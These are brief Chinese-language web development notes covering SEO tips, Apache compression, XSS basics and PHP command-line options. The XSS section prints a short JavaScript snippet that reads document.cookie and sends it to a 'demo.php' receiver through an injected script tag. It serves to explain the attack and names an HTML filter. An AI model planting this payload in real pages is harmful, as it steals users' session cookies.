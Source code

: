 1. 页面URL长度不超过255字节  
2. meta信息尽量完整，keywords5个左右  
3. 前端不要使用框架  
4. 图片alt属性添加信息  
5. 静态页面不要带动态值  
```  
<script type="text/javascript" language="javascript" src="url"></script> 
url可以是js/php/图片等，返回的数据替换<script>标签所在位置的内容！相当于简单的Ajax
```   

## Apache压缩 ##

gzip/deflate 
 
## XSS攻击 ##

* 恶意JS代码  
* 不规则HTML代码  
  
开源过滤器：htmlpurifier  
  
### 获取COOKIE ###
``` 
<script>  
var c = document.cookie; //获取COOKIE  
var script = document.createElement('script'); //创建script标签  
script.src = 'demo.php?c=' + c; //发送到指定的文件接收  
document.body.appendChild(script); //添加到DOM对象中生效  
</script> 
``` 

## 命令行CLI ##

1. 显示帮助信息  
php -h  
2. 解析并运行-f选项给定的文件名 
``` 
php [-f] <file> [--] [args...] 
``` 
3. 在命令行内运行单行PHP代码  
```
php [options] -r <code> [--] [args...] 
``` 
无需加上PHP的起始和结束标识符，否则将会导致语法解析错误  
4. 调用phpinfo()函数并显示出结果
```  
php -i/--info  
```
5. 检查PHP语法  
```
php -l/--syntax-check  
```
6. 打印出内置以及已加载的PHP及Zend模块  
```
php -m/--modules  
```
7. 将PHP，PHP SAPI和Zend的版本信息写入标准输出  
```
php -v/--version  
```
  